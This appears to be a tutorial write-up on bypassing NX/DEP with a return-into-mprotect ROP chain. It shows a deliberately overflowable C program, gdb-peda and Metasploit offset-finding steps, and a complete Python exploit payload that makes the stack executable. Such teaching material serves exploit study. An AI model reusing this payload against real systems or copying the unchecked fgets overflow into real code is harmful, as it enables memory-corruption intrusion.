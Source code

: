 ## ROP : pointer leaking + return-into-mprotect()

- - -

#### We are in the era of high complexity to bypass mitigation against memory corruption.

**Ret2mprotect** is an elegant way to bypass mitigation like **NX/DEP** by using ```mprotect()``` to set memory protection.

I assume that you are confortable with x86 stack-based overflow, ASM and shellcode.

Let's take a vanilla sample :

```
#include<stdio.h>
#include<stdlib.h>

int main() {
    char name[512];
    fgets(name, 1024, stdin);
    printf("Hello %s", name);
    return 0;
}
```

Compile with explicit *noexecutable stack* flag.

```
$ gcc -m32 pwnme.c -o pwnme -znoexecstack

$ file pwnme exploitme: ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26,
BuildID[sha1]=0x19883d935e336675dd19ceb894dc09fd15e5903c, not stripped
```

Basically, same methodology for any x86 stack-based overflow by creating a unique pattern (I use *metasploit*).

We will override ```EIP``` at ```offset 524```.

```
$ /usr/share/metasploit-framework/tools/pattern_create.rb 999 > /tmp/in

$ gdb ~/pwnme -q
gdb-peda$ r < /tmp/in
Stopped reason: SIGSEGV 0x35724134 in ?? ()

$ /usr/share/metasploit-framework/tools/pattern_offset.rb 0x35724134
[*] Exact match at offset 524
```

Our stack begin at ```0xfffdd000``` and have a size of ```0x21000```.

```
gdb-peda$ vmmap

Start      End        Perm  Name
0xfffdd000 0xffffe000 rw-p  [stack]
```

Assuming that **ASLR** is disabled.

The address of ```mprotect()``` is ```0xf7f2d2e0```

```
gdb-peda$ p mprotect

$1 = {<text variable, no debug info>} 0xf7f2d2e0 <mprotect>
```

The manual of ```mprotect()``` give us the signature of the function.

```
$ man mprotect

NAME mprotect - set protection on a region of memory

SYNOPSIS #include <sys/mman.h> int mprotect(void *addr, size_t len, int prot);
```

Thus we know which argument to push.

It should look like this : ```mprotect(0xfffdd000, 0x21000, 0x7);```

```
gdb-peda$ searchmem CC 0xfffdd000 0xffffe000

Searching for 'cc' in range: 0xfffdd000 - 0xffffe000
0xffffd2c0 --> 0xcccccccc [stack] : 0xffffd2c1 --> 0xcccccccc [stack] :
0xffffd2c2 --> 0xcccccccc [stack] : 0xffffd2c3 --> 0xcccccccc [stack] :
0xffffd2c4 --> 0xcccccccc [stack] : 0xffffd2c5 --> 0xcccccccc [stack] :
0xffffd2c6 --> 0xcccccccc [stack] : 0xffffd2c7 --> 0xcccccccc [stack] :
```

Gogo Gadget. :o)

```
gdb-peda$ ropgadget

pop3ret = 0x8048882
```

Finally.

```
python -c "print
    '\xCC' * 524            # CC is the opcode for SIGTRAP
    +'\xe0\xd2\xf2\xf7'     # address of mprotect()
    +'\x82\x88\x04\x08'     # pop3ret cleaning the stack layout
    +'\x00\xd0\xfd\xff'     # address of the stack
    +'\x00\x10\x02\x00'     # size of the stack
    +'\x07\x00\x00\x00'     # flag read/write/execute
    +'\xc0\xd2\xff\xff'     # payload on the stack ;)
    "
```

Now, you can notice that the stack is executable.

```
gdb-peda$ vmmap

Start      End        Perm  Name
0xfffdd000 0xffffe000 rwxp	[stack]
```

@tfairane greetz @barrebas
